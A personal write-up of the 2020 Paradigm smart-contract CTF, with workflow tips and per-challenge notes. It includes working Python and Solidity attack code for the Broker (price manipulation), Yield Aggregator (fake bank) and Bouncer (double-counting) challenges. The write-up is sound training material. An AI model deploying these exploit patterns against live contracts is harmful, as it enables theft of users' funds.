 # 2020 Paradigm CTF writeup

The Paradigm CTF was 48 hours of smart contract breaking fun. Thanks to samczsun and gakonst for putting this on. I enjoyed the huge of difficulties (from hilariously easy to insanely hard), and the wide variety of the problem types, including non-solidity ones.

# Lessons learned

## Brownie

My biggest takeaway from the contest was how nice brownie is to work with. It makes smart contract development and exploration much easier and more natural than the previous javascript based frameworks I've used.

- Not having async scattered everywhere
- Able to use contracts directly as addresses
- Transparent handling of contracts with multiple compiler versions.
- Instant ABI's from verified mainnet contracts

## Tests

At first I worked through challenges using the provided remote fork server. This required a bit of a dance every 30 minutes or so as the server reset and was a pain to get a fresh start on. 

As I moved through the contest, I switched to running the contracts locally, and writing my attack as a test case. When the test went green, the challenge was solved. This made for much faster iteration cycles, and a clean slate every time. From discovering a vulnerability to having a working, polished attack wen down from three hours for the first challenge to 45 minutes for the last.

## Ordering

If it's just you playing and you are going for points, solve the easy challenges first. Easy ones are usually worth half the points of hard ones, but can take an order of magnitude less time. I usually fail at doing this, and I sure did this contest! 

# Challenges

## Broker 👍

A classic attack. Just adjust the rates on uniswap. I wrote some code to let me easily play with uniswap, then just winged this in the console. Borrowed, raised prices, borrowed more since my collateral was worth more, crashed the uniswap price, liquidated for peanuts.

``` python
def uniswap_weth_for_tokens(token_amount):
    print("  🦄 Trading to weth from tokens")
    a = token.balanceOf(pair)
    b = weth.balanceOf(pair)
    k = a * b
    new_a = a + token.balanceOf(me)
    new_b = k / (new_a)
    diff_b = b - new_b
    my_new_weth = int(diff_b * 0.95)  # Deliberately wrong
    token.transfer(pair, token_amount, STD)
    pair.swap(0, my_new_weth, me, b"", STD)
    print_balances()
```

## Secure 👍

After spending time looking for vulnerabilities, I re-read the win condition: Send a bunch of money to this contract. No hacking required. I sent the money.

## Swap 👎

Didn't solve this one. At least no one else solved it either. It looked like it might have been vulnerable to a numerical overflow, perhaps in the rate exponention. Mabye also the compiler bug that was fixed in 0.4.25, but was still present in 0.4.24 that this contract was built with.

```javascript
value * 10**decimals / 10**18;
```

## Bank 👎

It was clear that you could use reentrancy to wreck havoc with the accounts list, and get things to happen to the wrong account. However, I never found how to do the final step to modify the amounts of token I wanted to control. I even went to sleep with the my highlighted source code printout under my pillow. It only got 4 solves in total. I look forward to learning what I missed.

## Market 👎

I was suckered into this one because on my first read through, I missed the "randomized" nft ids used. I though it was just matter of buying the first nft, then taking ownership of the storage. 

While I looked at this a long time, I didn't see a vulnerability beyond a precomputed birthday attack on the tokens id's, which would allow you to update one token's ownership from another token's metadata. This would have allowed you to loot the contract, but I didn't have the time check if this was possible from a CPU budget point of view. It only got 7 solves in the end.


## Yield Aggregator 👍

A welcome break from spending hours on a hard challenges. Not only was there no validation of the stablecoins passed in, but there was also no validation of underlying banks, nor a single require statement in the entire contract!

It was very much rigged for a reentrancy attack, but I took a much simpler approach - creating my own bank for the contract to invest into, then  withdrawing matching funds from the "real" bank.


```python
print("🦞 Deploy Faux Bank")
faux = FauxBank.deploy(weth, STD)

print("🦞 Acquire WETH")
weth.deposit({'from': me, 'value': 50 * 1e18})
weth.approve(aggregator, 2**250, STD)

print("🦞 Deposit to Faux Bank")
aggregator.deposit(faux, [weth.address], [50 * 1e18], STD)

print("🦞 Withdraw from real bank")
aggregator.withdraw(bank, [weth.address], [50 * 1e18], STD)
```

```javascript
contract FauxBank {
    uint256 public balanceUnderlying;
    ERC20Likes underlying = ERC20Like(address(0));

    constructor (address underlying_){
        underlying = ERC20Like(underlying_);
    }
    
    function mint(uint256 amount) public {
        require(underlying.transferFrom(msg.sender, address(this), amount));
        balanceUnderlying += amount;
    }
}
```

## Bouncer 👍

Imagine the drug deal of the century. Dark warehouse. Men with guns. Suitcases full of dollars, yen, and Columbian pesos.

The seller's accountant is checking the numbers. He goes down a list of funds provided by the buyer. For each item on the list he opens that suitcase, and counts the money, and if it matches the list, he moves the money over to his side of the line. If any of the totals don't match, the deal is off.

But there's also bitcoin involved in this deal. Some of the entries in the list the accountant holds are bitcoin transactions from the buyer to the seller. The account verifies over an encrypted, black cellular network that the transaction's source, destination, and amounts match the list, then he crosses them off too.

Unfortunately, he's doesn't check that he's not already crossed the same transaction off the list before. 

This smart contract attack works by giving a list currencies and amounts to the to "bouncer", all of which reference the same amount of ethtereum. The bouncer keeps adding the same money to the total over and over again.

(I enjoyed how between every line of this contract was a dancing koala bear, waving a red flag with the words "RUG PULL" on it.)

```python
print("🦞 Deploy attack contract")
robinhood = RobinHood.deploy(bouncer, {'from': me, 'value': 70 * 1e18})

print("🦞 Swoop")
robinhood.swoop(STD)

print("🦞 Attack")
robinhood.attack(STD)

assert(bouncer.balance() == 0)
```

```javascript
contract RobinHood {
    address constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    Bouncer public bouncer;
    uint256 batch = 14.25 ether;

    constructor(address bouncer_) payable {
        bouncer =  Bouncer(bouncer_);
    }

    function swoop() public {
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
    }

    function attack() public {
        uint256[] memory ids = new uint256[](5);
        ids[0] = 0;
        ids[1] = 1;
        ids[2] = 2;
        ids[3] = 3;
        ids[4] = 4;
        bouncer.convertMany{value: batch}(address(this), ids);
        bouncer.redeem(ERC20Like(ETH), 5 * batch);
    }

    fallback() external payable {}
}
```

